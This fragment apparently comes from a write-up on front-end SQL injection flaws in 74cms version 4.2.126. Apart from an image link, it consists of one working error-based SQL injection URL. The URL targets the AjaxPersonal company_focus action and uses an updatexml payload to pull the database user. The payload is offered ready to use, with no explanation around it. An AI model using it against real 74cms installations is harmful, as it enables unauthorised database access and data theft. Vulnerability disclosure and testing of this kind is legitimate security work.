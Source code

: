 ![](resource/74cmsv4.2.126-前台四处sql注入/media/rId46.png)

    http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a
